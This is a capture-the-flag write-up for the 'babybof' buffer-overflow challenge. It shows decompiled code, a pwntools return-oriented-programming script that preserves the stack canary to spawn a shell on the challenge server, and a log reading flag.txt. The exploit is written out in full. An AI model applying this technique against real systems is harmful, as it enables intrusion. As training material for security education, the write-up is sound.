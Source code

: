 # babybof

```
by Eth007
Description

welcome to pwn! hopefully you can do your first buffer overflow

nc babybof.chal.imaginaryctf.org 1337
Attachments

vuln
```

Attachment decompiled via [Binary Ninja](https://binary.ninja):

```c
004011bf    int32_t main(int32_t argc, char** argv, char** envp)

004011bf    {
004011bf        void* fsbase;
004011cb        int64_t rax = *(uint64_t*)((char*)fsbase + 0x28);
004011e9        setbuf(stdin, nullptr);
004011fd        setbuf(__TMC_END__, nullptr);
0040120c        puts("Welcome to babybof!");
0040121b        puts("Here is some helpful info:");
00401239        printf("system @ %p\n", system);
00401257        printf("pop rdi; ret @ %p\n", &data_4011ba);
00401275        printf("ret @ %p\n", &data_4011bb);
00401293        printf(""/bin/sh" @ %p\n", "/bin/sh");
004012b5        printf("canary: %p\n", rax);
004012c9        printf("enter your input (make sure your stack is aligned!): ");
004012da        char buf[0x38];
004012da        gets(&buf);
004012f5        printf("your input: %s\n", &buf);
00401317        printf("canary: %p\n", rax);
00401339        printf("return address: %p\n", __return_addr);
00401347        *(uint64_t*)((char*)fsbase + 0x28);
00401347        
00401350        if (rax == *(uint64_t*)((char*)fsbase + 0x28))
00401358            return 0;
00401358        
00401352        __stack_chk_fail();
00401352        /* no return */
004011bf    }
```

The program gives us all the values required for Return Oriented Programming. We just:

1. skip over 0x38 buffer
2. keep canary as it is
3. write anything for saved rbp
4. jump to `ret` to balance the stack
5. jump to `pop_rdi_ret` to set rdi to point to `/bin/sh`
6. jump to `system` to get shell

Attack script:

```python
from pwn import *

elf = ELF("./vuln")
context.binary = elf
context.terminal = ["tmux", "split-w", "-h"]
context(log_level = "debug")

# p = process("./vuln")
p = remote(host="babybof.chal.imaginaryctf.org", port=1337)
# gdb.attach(p)
# pause()
p.recvline() # required online
p.recvline()
p.recvline()
system = int(p.recvline().split()[-1], 16)
pop_rdi_ret = int(p.recvline().split()[-1], 16)
ret = int(p.recvline().split()[-1], 16)
bin_sh = int(p.recvline().split()[-1], 16)
canary = int(p.recvline().split()[-1], 16)
print(hex(system), hex(pop_rdi_ret), hex(ret), hex(bin_sh), hex(canary))
p.sendline(b"A" * 0x38 + p64(canary) + p64(0x0) + p64(ret) + p64(pop_rdi_ret) + p64(bin_sh) + p64(system))
p.interactive()
```

Get shell:

```shell
your input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
canary: 0x9806fa0ef482d300
return address: 0x4011bb
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0xe bytes:
    b'chal\n'
    b'flag.txt\n'
chal
flag.txt
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x3c bytes:
    b'ictf{arent_challenges_written_two_hours_before_ctf_amazing}\n'
ictf{arent_challenges_written_two_hours_before_ctf_amazing}
$  
```
